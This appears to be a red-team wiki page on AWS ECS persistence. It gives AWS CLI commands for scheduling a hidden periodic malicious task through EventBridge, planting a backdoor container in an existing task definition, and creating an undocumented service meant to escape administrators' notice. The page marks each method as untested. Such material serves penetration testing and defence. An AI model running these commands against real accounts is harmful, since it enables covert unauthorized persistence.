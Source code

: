# AWS - ECS Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## ECS

For more information check:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Hidden Periodic ECS Task

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can create a hidden periodic ECS task using Amazon EventBridge to **schedule the execution of a malicious task periodically**. This task can perform reconnaissance, exfiltrate data, or maintain persistence in the AWS account.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
  {
    "Id": "malicious-ecs-task-target",
    "Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
    "RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
      "TaskCount": 1
    }
  }
]'
```

### Backdoor Container in Existing ECS Task Definition

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can add a **stealthy backdoor container** in an existing ECS task definition that runs alongside legitimate containers. The backdoor container can be used for persistence and performing malicious activities.

```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
  {
    "name": "legitimate-container",
    "image": "legitimate-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "backdoor-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Undocumented ECS Service

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can create an **undocumented ECS service** that runs a malicious task. By setting the desired number of tasks to a minimum and disabling logging, it becomes harder for administrators to notice the malicious service.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
